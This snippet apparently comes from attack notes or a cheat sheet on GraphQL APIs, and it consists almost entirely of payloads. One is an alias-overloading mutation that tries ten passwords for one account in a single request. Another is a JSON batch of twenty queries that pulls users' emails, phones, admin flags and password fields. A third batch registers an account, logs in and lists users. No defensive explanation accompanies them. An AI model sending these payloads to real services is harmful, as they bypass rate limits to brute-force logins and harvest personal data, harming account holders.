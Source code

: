 #### Bruteforcing login mutation using Alias Overloading

```graphql
mutation {
  login1: login(email: "peter@hack.org", password: "!13ep@re2")
  login2: login(email: "peter@hack.org", password: "31e!rte2@")
  login3: login(email: "peter@hack.org", password: "@pt3r1e!2")
  login4: login(email: "peter@hack.org", password: "1e2!te@p3")
  login5: login(email: "peter@hack.org", password: "31rpet!2e")
  login6: login(email: "peter@hack.org", password: "@tep!re32")
  login7: login(email: "peter@hack.org", password: "peter@123!")
  login8: login(email: "peter@hack.org", password: "!e3re@t1p")
  login9: login(email: "peter@hack.org", password: "1pe@!32te")
  login10: login(email: "peter@hack.org", password: "r3etpe!@2")
}
```

#### Array-based Query Batching

```json
[
  { "query": "query Batch1 { users { name email } }" },
  { "query": "query Batch2 { events { name description } }" },
  { "query": "query Batch3 { users { name createdAt } }" },
  { "query": "query Batch4 { events { name event_id } }" },
  { "query": "query Batch5 { users { name phone } }" },
  { "query": "query Batch6 { events { name createdAt } }" },
  { "query": "query Batch7 { users { name isAdmin } }" },
  { "query": "query Batch8 { events { name description createdAt } }" },
  { "query": "query Batch9 { users { name user_id password} }" },
  { "query": "query Batch10 { events { name event_id description } }" },
  { "query": "query Batch11 { users { name email } }" },
  { "query": "query Batch12 { events { name description } }" },
  { "query": "query Batch13 { users { name createdAt } }" },
  { "query": "query Batch14 { events { name event_id } }" },
  { "query": "query Batch15 { users { name phone } }" },
  { "query": "query Batch16 { events { name createdAt } }" },
  { "query": "query Batch17 { users { name isAdmin } }" },
  { "query": "query Batch18 { events { name description createdAt } }" },
  { "query": "query Batch19 { users { name user_id password} }" },
  { "query": "query Batch20 { events { name event_id description } }" }
]
```

```json
[
  {
    "query": "mutation { register(name: \"mrroot\", email: \"mrroot@hack.org\", phone: \"7894561230\", password: \"Mrroot123\") }"
  },
  {
    "query": "mutation { login(email: \"mrroot@hack.org\", password: \"Mrroot123\") }"
  },
  {
    "query": "query { users { user_id name }}"
  }
]
```
